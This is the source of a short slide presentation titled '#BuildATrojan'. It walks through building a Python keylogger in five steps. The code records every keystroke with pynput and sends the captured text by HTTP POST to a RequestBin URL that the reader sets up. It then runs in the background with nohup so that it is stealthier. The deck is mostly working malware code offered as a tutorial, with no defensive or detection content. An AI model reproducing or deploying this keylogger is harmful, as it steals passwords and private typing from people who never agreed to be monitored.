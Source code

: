 class: center, middle

# #BuildATrojan

---

# Here's the Agenda

1. History
2. The virus
3. Building one

---
# History

.center[![Trojan](https://allthatsinteresting.com/wordpress/wp-content/uploads/2021/12/still-from-troy.png)]

---
class: center, middle
# Trojan Virus

.center[![Trojan](https://autodesk.blogs.com/.a/6a00d8341bfd0c53ef01b8d29a32e9970c-pi)]

---
class: center, middle
### Building a Trojan

---
### Step 1: Lets print all keystrokes to the console


```python
from pynput.keyboard import Key, Listener

def on_press(key):
    print(str(key))

with Listener(on_press=on_press) as listener:
    listener.join()
```

---
### Step 2: Lets print a line to the console when a key is pressed

```python
from pynput.keyboard import Listener
keys = ''
def send_keys():
    global keys
    print(keys)
    keys = ''

def on_press(key):
    global keys
    str_key = str(key)
    if str_key == "Key.tab":
        str_key = '\t'
    elif str_key == "Key.enter":
        str_key = '\n'
    elif str_key == "Key.space":
        str_key = ' '
    elif str_key == "Key.backspace":
        str_key = ' bspace '
    elif "Key" in str_key:
        str_key = str_key.replace("Key.", "")
        str_key = f" {str_key} "
    keys += str_key.strip('\'')
    if len(keys) >= 20:
        send_keys()

with Listener(on_press=on_press) as listener:
    listener.join()
```

---

### Step 3: Lets create a request bin

- Open [Request bin](https://requestbin.net/)

- Click **Create a RequestBin** 
---
### Step 4: Sending data to the bin
```python
from pynput.keyboard import Key, Listener
import requests
keys = ''
request_bin_url = 'https://{request bin url}'
def send_keys():
    global keys
    print(keys)
    requests.post(request_bin_url, data=keys)
    keys = ''
def on_press(key):
    global keys
    str_key = str(key)
    if str_key == "Key.tab":
        str_key = '\t'
    elif str_key == "Key.enter":
        str_key = '\n'
    elif str_key == "Key.space":
        str_key = ' '
    elif str_key == "Key.backspace":
        str_key = ' bspace '
    elif "Key" in str_key:
        str_key = str_key.replace("Key.", "")
        str_key = f" {str_key} "
    keys += str_key.strip('\'')
    if len(keys) >= 20:
        send_keys()

with Listener(on_press=on_press) as listener:
    listener.join()
```

---
### Step 5: Lets make it a bit more stealthy

```bash
nohup python3 send_line.py &
```

---
class: center, middle

# Any questions?